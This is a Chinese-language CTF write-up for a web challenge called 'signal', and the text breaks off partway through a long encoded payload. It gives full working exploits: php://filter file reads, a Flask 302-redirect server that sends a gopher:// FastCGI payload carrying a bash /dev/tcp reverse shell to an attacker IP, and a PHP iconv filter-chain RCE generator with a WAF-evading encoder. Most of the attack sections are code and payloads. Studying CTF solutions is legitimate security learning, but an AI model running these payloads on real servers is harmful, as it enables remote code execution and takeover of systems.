

# signal题解
## 考点
- 重定向+SSRF
- FastCGI漏洞利用

## 过程总结
\- 解法一：扫目录(得到guest登录信息、`admin.php`)->可以任意文件读取->尝试读取flag(假的)->php伪协议二次url编码绕过读取`admin.php`源码->分析源码找到利用点(302重定向、结果输出)->读取`StoredAccounts.php`源码获取`admin`密码，登陆->判断为https-ssrf->重定向ssrf打fastcgi->反弹shell

## 分析与解答
查看源码、抓包、尝试用户名和密码，都没有什么效果，于是`dirsearch`扫一下目录，拿到了`/.index.php.swp`：


其内容如下，可以获得普通的用户名密码为`guest:MyF3iend`：


进行登陆，观察到有文件读取：


那尝试读取一下`/flag`，但是发现是假的：


结合上面扫到的目录，利用php伪协议来读取一下源码，需要进行二次url编码，payload为：
```
php://filter/%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=admin.php
```


然后解码，`admin.php`源码如下(一些重要地方已添加注释：
```php
<?php
session_start();
error_reporting(0);

# 检查是否以admin的身份登陆
if ($_SESSION['logged_in'] !== true || $_SESSION['username'] !== 'admin') {
    $_SESSION['error'] = 'Please fill in the username and password';
    header("Location: index.php");
    exit();
}

$url = $_POST['url'];
$error_message = '';
$page_content = '';

if (isset($url)) {
    if (!preg_match('/^https:\/\//', $url)) {
        $error_message = 'Invalid URL, only https allowed';
    } else {
        $ch = curl_init();
        # curl_setopt设置一个curl传输选项，CURLOPT_URL为需要获取的url地址;
        # CURLOPT_HEADER设置头文件信息是否作为数据流输出;
        # CURLOPT_FOLLOWLOCATION启用时会将服务器返回的"Location: "放在header中递归的返回给服务器;
        # CURLOPT_RETURNTRANSFER设置是否将curl_exec()获取的信息以文件流的形式返回，而不是直接输出
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
        $page_content = curl_exec($ch);
        if ($page_content === false) {
            $error_message = 'Failed to fetch the URL content';
        }
        curl_close($ch);
    }
}
?>
```
那么根据上面的注释，其实利用的重点就是设置curl选项那里，首先将`CURLOPT_FOLLOWLOCATION`设置为1，支持重定向；然后将`CURLOPT_RETURENTRANSFER`置为1可以将获取的信息以文件流形式返回，说明可以返回我们指定的结果。

### #1 解法一  （重定向+SSRF+FastCGI）

但问题是这些操作都需要登陆到`admin`账户下，于是我们再找寻其他信息，发现登陆页面有个`StoredAccounts.php`，那就按照上面套路直接读取一下。


源码如下：
```php
<?php
session_start();

$users = [
    'admin' => 'FetxRuFebAdm4nHace',
    'guest' => 'MyF3iend'
];

if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    if (isset($users[$username]) && $users[$username] === $password) {
        $_SESSION['logged_in'] = true;
        $_SESSION['username'] = $username;

        if ($username === 'admin') {
            header('Location: admin.php');
        } else {
            header('Location: guest.php');
        }
        exit();
    } else {
        $_SESSION['error'] = 'Invalid username or password';
        header('Location: index.php');
        exit();
    }
} else {
    $_SESSION['error'] = 'Please fill in the username and password';
    header('Location: index.php');
    exit();
}
```
发现有`admin`的密码，然后其余的操作都是都是验证用户的登录了，没有什么可以利用的，于是去登陆一下：


果然登陆进来就是一个输入url的表单，看样子是一个限制到`https`的ssrf。**重点是ssrf能怎么利用？题目提示是cgi，应该是ssrf打fastcgi**。这里用的是在公网上部署一个302重定向的服务，该302重定向包含fastcgi利用的payload(可反弹shell)，然后访问这个公网的ip，就会重定向到127.0.0.1(即靶机本地)，示意如下：
> 关于ssrf与fastcgi 参考：[SSRF漏洞理解进阶&SSRF+gopher打内网](https://blog.csdn.net/qq_61778128/article/details/127505896)


步骤如下(由于这里自己没有外网ip，所以在理解了原理后对官方步骤进行了一下腾挪)：
- 利用gopherus生成反弹shell的payload：

- 然后写一个可302重定向的web服务：
    ```python
    from flask import Flask, redirect
    app = Flask(__name__)
    @app.route('/')
    def indexRedirect():
        redirectUrl = 'gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/admin.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20i%20%3E%26%20/dev/tcp/[IP]/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-bySpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00'
        return redirect(redirectUrl)
    if __name__ == '__main__':
        app.run('0.0.0.0', port=8080, debug=True)
    ```
- 在外网服务器上监听`2333`端口；
- 然后将该服务的uri输入到题目的窗口中，发现反弹shell：


最后直接找flag就行了。


### #2 解法二   (filterchain RCE，相关原理参考[5])
前面读源码的过程是一样的，获取`guest.php`源码：
```php
<?php
session_start();
error_reporting(0);
 
if ($_SESSION['logged_in'] !== true || $_SESSION['username'] !== 'guest' ) {
    $_SESSION['error'] = 'Please fill in the username and password';
    header('Location: index.php');
    exit();
}
 
if (!isset($_GET['path'])) {
    header("Location: /guest.php?path=/tmp/hello.php");
    exit;
}
 
$path = $_GET['path'];
if (preg_match('/(\.\.\/|php:\/\/tmp|string|iconv|base|rot|IS|data|text|plain|decode|SHIFT|BIT|CP|PS|TF|NA|SE|SF|MS|UCS|CS|UTF|quoted|log|sess|zlib|bzip2|convert|JP|VE|KR|BM|ISO|proc|\_)/i', $path)) {
    echo "Don't do this";
}else{
    include($path);
}
?>
```

生成payload：
```php
<?php
$base64_payload = "PD89YCRfUE9TVFsxXWA7Pz4="; /*<?=`$_POST[1]`;?>*/
$conversions = array(
    '/' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    '1' => 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
    '2' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
    '3' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2',
    '5' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.GBK.UTF-8|convert.iconv.IEC_P27-1.UCS-4LE',
    '6' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'A' => 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    'E' => 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
    'F' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
    'G' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90',
    'H' => 'convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213',
    'I' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213',
    'J' => 'convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4',
    'K' => 'convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE',
    'L' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC',
    'M' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T',
    'N' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4',
    'O' => 'convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775',
    'P' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
    'Q' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2',
    'R' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4',
    'S' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS',
    'T' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'V' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB',
    'W' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936',
    'X' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932',
    'Y' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361',
    'Z' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16',
    'a' => 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
    'b' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
    'c' => 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'e' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
    'f' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    'g' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
    'h' => 'convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE',
    'i' => 'convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000',
    'j' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16',
    'k' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2',
    'l' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE',
    'm' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949',
    'n' => 'convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61',
    'o' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE',
    'p' => 'convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4',
    'q' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.GBK.CP932|convert.iconv.BIG5.UCS2',
    'r' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.ISO-IR-99.UCS-2BE|convert.iconv.L4.OSF00010101',
    's' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90',
    't' => 'convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS',
    'u' => 'convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61',
    'v' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO_6937-2:1983.R9|convert.iconv.OSF00010005.IBM-932',
    'w' => 'convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE',
    'x' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS',
    'y' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT',
    'z' => 'convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937',
);
$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";
foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}
$filters .= "convert.base64-decode";
$final_payload = "php://filter/{$filters}/resource=index.php";
echo $final_payload;
```

然后由于是get传参有长度限制并且有waf，需要将payload进行最短二次编码：
```php
text = '''php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7||convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=index.php'''
 
a = "string|iconv|base|rot|IS|data|text|plain|decode|SHIFT|BIT|CP|PS|TF|NA|SE|SF|MS|UCS|CS|UTF|quoted|log|sess|zlib|bzip2|convert|JP|VE|KR|BM|ISO|proc|_|ve|se"
a = a.split('|')
 
for i in a:
    tmp = i[0]  # 获取字符串的第一个字符
    tmp = hex(ord(tmp))[2:]  # 获取字符的十六进制表示
    tmp = '%25' + tmp + i[1:]  # 将字符转换为 URL 编码形式
    # print(tmp)  # 可以选择打印输出查看结果
    if i in text:
        text = text.replace(i, tmp)  # 替换原始文本中的匹配字符串
 
print(text)
```
最终的payload为：
```
php://filter/%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7||%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.U%2554F16LE|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2555%2543S2.EUCTW|%2563on%2576ert.%2569conv.L4.U%2554F8|%2563on%2576ert.%2569conv.IEC%255fP271.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.865.U%2554F16|%2563on%2576ert.%2569conv.%2543P901.%2549SO6937|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2553E2.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M1161.I%2542M-932|%2563on%2576ert.%2569conv.%254dS932.%254dS936|%2563on%2576ert.%2569conv.BIG5.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.U%2554F16LE|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2555%2543S2.EUCTW|%2563on%2576ert.%2569conv.L4.U%2554F8|%2563on%2576ert.%2569conv.866.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.8859%255f3.U%2554F16|%2563on%2576ert.%2569conv.863.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2553E2.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M1161.I%2542M-932|%2563on%2576ert.%2569conv.%254dS932.%254dS936|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.PT.U%2554F32|%2563on%2576ert.%2569conv.KOI8-U.I%2542M-932|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P-AR.U%2554F16|%2563on%2576ert.%2569conv.8859%255f4.BIG5HKS%2543S|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.I%2542M869.U%2554F16|%2563on%2576ert.%2569conv.L3.%2543S%2549SO90|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.L5.U%2554F-32|%2563on%2576ert.%2569conv.%2549SO88594.GB13000|%2563on%2576ert.%2569conv.%2543P950.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2569conv.UHC.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P861.U%2554F-16|%2563on%2576ert.%2569conv.L4.GB13000|%2563on%2576ert.%2569conv.BIG5.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.L6.UNICODE|%2563on%2576ert.%2569conv.%2543P1282.%2549SO-IR-90|%2563on%2576ert.%2569conv.%2543SA%255fT500.L4|%2563on%2576ert.%2569conv.%2549SO%255f8859-2.%2549SO-IR-103|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.%2549SO6937.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.I%2542M860.U%2554F16|%2563on%2576ert.%2569conv.%2549SO-IR-143.%2549SO2022CNEXT|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.%2543P1133.I%2542M932|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P367.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M901.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.PT.U%2554F32|%2563on%2576ert.%2569conv.KOI8-U.I%2542M-932|%2563on%2576ert.%2569conv.SJ%2549S.EUC%254aP-WIN|%2563on%2576ert.%2569conv.L10.%2555%2543S4|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P367.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M901.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2569conv.UHC.%2543P1361|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.%2549SO6937.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.L6.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U